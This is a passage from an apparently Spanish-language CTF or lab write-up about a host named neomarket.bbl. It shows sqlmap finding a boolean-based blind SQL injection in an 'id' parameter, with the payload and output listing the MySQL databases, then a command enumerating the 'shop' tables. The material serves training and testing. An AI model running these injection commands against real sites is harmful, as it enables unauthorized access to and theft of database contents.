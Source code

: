 ```
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 7591=7591-- MlFi&cantidad=1&buy_articulo=Comprar
---
[09:01:50] [INFO] testing Microsoft Access
[09:01:50] [WARNING] the back-end DBMS is not Microsoft Access
[09:01:50] [INFO] testing MySQL
[09:01:50] [INFO] confirming MySQL
[09:01:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 8.0.0
[09:01:50] [INFO] fetching database names
[09:01:50] [INFO] fetching number of databases
[09:01:50] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:01:50] [INFO] retrieved: 3
[09:01:50] [INFO] retrieved: information_schema
[09:01:52] [INFO] retrieved: performance_schema
[09:01:53] [INFO] retrieved: shop
available databases [3]:
[*] information_schema
[*] performance_schema
[*] shop

[09:01:53] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 364 times
[09:01:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/neomarket.bbl'

[*] ending @ 09:01:53 /2025-03-21/
```

Vemos que nos muestra las bases de datos, entre ellas una muy interesante llamada `shop` por lo que sacaremos las tablas de dicha base de datos:

```shell
sqlmap -r request.txt -p id --level=5 --risk=3 -D shop --tables
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___[']_____ ___ ___  {1.8.11#stable}                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                    
|___|_  [)]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:04:38 /2025-03-21/

[09:04:38] [INFO] parsing HTTP request from 'request.txt'
[09:04:38] [INFO] resuming back-end DBMS 'mysql' 
[09:04:38] [INFO] testing connection to the target URL
got a 302 redirect to 'http://neomarket.bbl/compras.php'. Do you want to follow? [Y/n] 

```